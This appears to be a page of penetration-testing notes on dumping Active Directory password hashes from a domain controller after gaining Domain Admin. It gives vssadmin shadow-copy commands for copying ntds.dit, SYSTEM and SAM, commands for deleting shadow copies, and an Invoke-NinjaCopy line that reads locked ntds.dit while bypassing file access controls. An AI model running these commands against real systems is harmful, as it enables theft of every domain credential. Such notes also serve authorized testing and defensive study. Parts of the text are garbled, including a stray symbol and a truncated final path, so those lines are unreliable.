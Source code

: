 {% tab title="Vol. Shadow Copy" %}


Once you have Domain Admin access, the old way to pull all hashes from the DC was to run commands on the domain controller and user Shadow volume or Raw copy to pull the ntds.dit file

* _RTFM: Volume Shadow Copy - pg.21_
* Volume Shadow Copy technique (old)
  * NTDS.dit file is constantly being locked as in use by the OS.
  * We can use Volume Shadow Copy to make an copy of it we can extract hashes from
    * C:\vssadmin create shadow /for=C:
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\ntds\ntds.dit
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SYSTEM
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SAM
    * reg SAVE HKLM\SYSTEM c:\SYS
    * vssadmin delete shadows /for=\[/oldest | /all | /shadow=]
* ALT
  * Volume Shadow Copy
    * \#vssadmin list shadows
      * \#set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
      * \#for /R %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
      * &#x20;[https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/](https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/)
* Listing shadow copy contents. This is tricky since the shadow copies are not regular (standalone) volumes. These are pseudo-volume devices, without a drive letter or volume name, in the form \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyNNN. You can still access their contents from the command line, if you know how. For example, copying a file from the shadow copy can be done this way:
  * dir > c:\somefile.txt
  * &#x20;vssadmin create shadow /for=c:
  * &#x20;vssadmin list shadows
  * &#x20;(get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * &#x20;set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * &#x20;copy %VSHADOW\_DEVICE%\somefile.txt c:\somefile\_bak.txt
* To enumerate all files on a shadow copy device we will use the "for /R" command. Note that we used %i and not %%i so the command below will not work properly in a CMD batch file:
  * dir > c:\somefile.txt
  * vssadmin create shadow /for=c:
  * vssadmin list shadows
  * (get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * for /R• %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
{% endtab %}

{% tab title="NinjaCopy" %}
NinjaCopy [http://bit.ly/2HpvKwj](http://bit.ly/2HpvKwj)

* Copies file from an NTFS partition volume by reading the raw volume and parsing the NTFS Strucutres
* This bypasses file DACL's, read handle blocks, and SACL's
* This can be used to read SYSTEM files that are normally locked like NTDS.dit registry hives
* \> Invoke-NinjaCopy -Path “c:\Windows\ntds\ntds.dit” -LocalDestination "c:\Windows\temp\ntds.di
{% endtab %}
